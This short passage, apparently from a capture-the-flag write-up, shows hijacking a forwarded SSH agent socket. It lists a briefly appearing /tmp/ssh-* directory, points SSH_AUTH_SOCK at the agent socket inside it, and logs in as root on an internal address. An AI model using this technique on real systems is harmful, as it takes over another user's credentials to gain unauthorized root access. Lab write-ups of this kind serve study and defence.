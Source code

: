 After a while a new directory with an agent number gets created:
```
ls /tmp/ssh-snmYgKYdp4

agent.2536
```

This agent number can be put into an environment variable and used for SSH:
```
SSH_AUTH_SOCK=agent.2536 ssh root@172.18.0.1 -p 2222
```

> NOTE: The directory gets deleted after a few seconds, so a fast reaction is needed after seeing the directory pop up.

It logs us into the box as root!
